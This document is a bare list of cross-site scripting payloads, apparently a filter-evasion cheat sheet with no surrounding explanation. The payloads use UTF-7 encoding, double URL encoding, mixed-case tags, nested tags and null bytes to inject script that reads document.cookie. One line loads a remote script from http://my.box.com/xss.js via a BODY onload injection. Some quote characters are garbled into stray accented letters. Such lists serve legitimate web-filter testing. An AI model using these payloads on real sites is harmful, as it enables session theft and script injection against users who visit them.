 +ADw-script+AD4-alert(document.location)+ADw-/script+AD4-
%2BADw-script+AD4-alert(document.location)%2BADw-/script%2BAD4-
+ACIAPgA8-script+AD4-alert(document.location)+ADw-/script+AD4APAAi-
%2BACIAPgA8-script%2BAD4-alert%28document.location%29%2BADw-%2Fscript%2BAD4APAAi-
%253cscript%253ealert(document.cookie)%253c/script%253e
ì><sî%2bîcript>alert(document.cookie)</script>
ì><ScRiPt>alert(document.cookie)</script>
ì><<script>alert(document.cookie);//<</script>
foo%00<script>alert(document.cookie)</script>
<scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%22/%3E%3CBODY%20onload=ídocument.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)í%3E
ë; alert(document.cookie); var foo=í
foo\í; alert(document.cookie);//í;
